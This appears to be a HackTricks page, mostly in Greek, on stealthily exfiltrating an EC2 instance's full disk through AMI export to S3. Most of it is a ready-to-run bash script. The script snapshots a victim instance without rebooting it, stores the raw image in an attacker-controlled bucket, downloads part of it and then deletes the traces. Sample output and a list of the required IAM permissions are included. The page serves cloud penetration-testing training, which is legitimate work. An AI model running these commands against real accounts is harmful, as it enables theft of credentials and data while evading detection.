 # AWS – Covert Disk Exfiltration via AMI Store-to-S3 (CreateStoreImageTask)

{{#include ../../../../banners/hacktricks-training.md}}

## Περίληψη
Abuse EC2 AMI export-to-S3 για να exfiltrate τον πλήρη δίσκο ενός EC2 instance ως μία ενιαία raw image αποθηκευμένη σε S3, και στη συνέχεια να την κατεβάσετε εκτός-καναλιού. Αυτό αποφεύγει το sharing snapshots και παράγει ένα αντικείμενο ανά AMI.

## Απαιτήσεις
- EC2: `ec2:CreateImage`, `ec2:CreateStoreImageTask`, `ec2:DescribeStoreImageTasks` στο στόχο instance/AMI
- S3 (same Region): `s3:PutObject`, `s3:GetObject`, `s3:ListBucket`, `s3:AbortMultipartUpload`, `s3:PutObjectTagging`, `s3:GetBucketLocation`
- KMS decrypt στο κλειδί που προστατεύει τα AMI snapshots (εάν το EBS default encryption είναι ενεργό)
- Policy του S3 bucket που εμπιστεύεται το `vmie.amazonaws.com` service principal (δείτε παρακάτω)

## Επιπτώσεις
- Πλήρης offline απόκτηση του root δίσκου του instance σε S3 χωρίς sharing snapshots ή copying across accounts.
- Επιτρέπει stealth forensics πάνω σε credentials, configuration, και περιεχόμενο filesystem από την εξαγόμενη raw image.

## Πώς να Exfiltrate μέσω AMI Store-to-S3

- Σημειώσεις:
- Το S3 bucket πρέπει να βρίσκεται στην ίδια Region με το AMI.
- Στο `us-east-1`, το `create-bucket` ΔΕΝ πρέπει να περιλαμβάνει `--create-bucket-configuration`.
- `--no-reboot` δημιουργεί μια crash-consistent εικόνα χωρίς να σταματήσει το instance (πιο διακριτική αλλά με λιγότερη συνοχή).

<details>
<summary>Εντολές βήμα-βήμα</summary>
```bash
# Vars
REGION=us-east-1
INSTANCE_ID=<i-victim>
BUCKET=exfil-ami-$(date +%s)-$RANDOM

# 1) Create S3 bucket (same Region)
if [ "$REGION" = "us-east-1" ]; then
aws s3api create-bucket --bucket "$BUCKET" --region "$REGION"
else
aws s3api create-bucket --bucket "$BUCKET" --create-bucket-configuration LocationConstraint=$REGION --region "$REGION"
fi

# 2) (Recommended) Bucket policy to allow VMIE service to write the object
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
cat > /tmp/bucket-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVMIEPut",
"Effect": "Allow",
"Principal": {"Service": "vmie.amazonaws.com"},
"Action": [
"s3:PutObject", "s3:AbortMultipartUpload", "s3:ListBucket",
"s3:GetBucketLocation", "s3:GetObject", "s3:PutObjectTagging"
],
"Resource": [
"arn:aws:s3:::$BUCKET",
"arn:aws:s3:::$BUCKET/*"
],
"Condition": {
"StringEquals": {"aws:SourceAccount": "$ACCOUNT_ID"},
"ArnLike": {"aws:SourceArn": "arn:aws:ec2:$REGION:$ACCOUNT_ID:image/ami-*"}
}
}
]
}
POL
aws s3api put-bucket-policy --bucket "$BUCKET" --policy file:///tmp/bucket-policy.json

# 3) Create an AMI of the victim (stealthy: do not reboot)
AMI_ID=$(aws ec2 create-image --instance-id "$INSTANCE_ID" --name exfil-$(date +%s) --no-reboot --region "$REGION" --query ImageId --output text)

# 4) Wait until the AMI is available
aws ec2 wait image-available --image-ids "$AMI_ID" --region "$REGION"

# 5) Store the AMI to S3 as a single object (raw disk image)
OBJKEY=$(aws ec2 create-store-image-task --image-id "$AMI_ID" --bucket "$BUCKET" --region "$REGION" --query ObjectKey --output text)

echo "Object in S3: s3://$BUCKET/$OBJKEY"

# 6) Poll the task until it completes
until [ "$(aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text)" = "Completed" ]; do
aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text
sleep 10
done

# 7) Prove access to the exported image (download first 1MiB)
aws s3api head-object --bucket "$BUCKET" --key "$OBJKEY" --region "$REGION"
aws s3api get-object --bucket "$BUCKET" --key "$OBJKEY" --range bytes=0-1048575 /tmp/ami.bin --region "$REGION"
ls -l /tmp/ami.bin

# 8) Cleanup (deregister AMI, delete snapshots, object & bucket)
aws ec2 deregister-image --image-id "$AMI_ID" --region "$REGION"
for S in $(aws ec2 describe-images --image-ids "$AMI_ID" --region "$REGION" \
--query Images[0].BlockDeviceMappings[].Ebs.SnapshotId --output text); do
aws ec2 delete-snapshot --snapshot-id "$S" --region "$REGION"
done
aws s3 rm "s3://$BUCKET/$OBJKEY" --region "$REGION"
aws s3 rb "s3://$BUCKET" --force --region "$REGION"
```
</details>

## Παράδειγμα αποδεικτικών στοιχείων

- `describe-store-image-tasks` μεταβάσεις:
```text
InProgress
Completed
```
- S3 μεταδεδομένα αντικειμένου (παράδειγμα):
```json
{
"AcceptRanges": "bytes",
"LastModified": "2025-10-08T01:31:46+00:00",
"ContentLength": 399768709,
"ETag": "\"c84d216455b3625866a58edf294168fd-24\"",
"ContentType": "application/octet-stream",
"ServerSideEncryption": "AES256",
"Metadata": {
"ami-name": "exfil-1759887010",
"ami-owner-account": "<account-id>",
"ami-store-date": "2025-10-08T01:31:45Z"
}
}
```
- Μερική λήψη αποδεικνύει την πρόσβαση στο αντικείμενο:
```bash
ls -l /tmp/ami.bin
# -rw-r--r--  1 user  wheel  1048576 Oct  8 03:32 /tmp/ami.bin
```
## Απαιτούμενα δικαιώματα IAM

- EC2: `CreateImage`, `CreateStoreImageTask`, `DescribeStoreImageTasks`
- S3 (στο bucket εξαγωγής): `PutObject`, `GetObject`, `ListBucket`, `AbortMultipartUpload`, `PutObjectTagging`, `GetBucketLocation`
- KMS: Εάν τα AMI snapshots είναι κρυπτογραφημένα, επιτρέψτε decrypt για το EBS KMS key που χρησιμοποιείται από τα snapshots

{{#include ../../../../banners/hacktricks-training.md}}
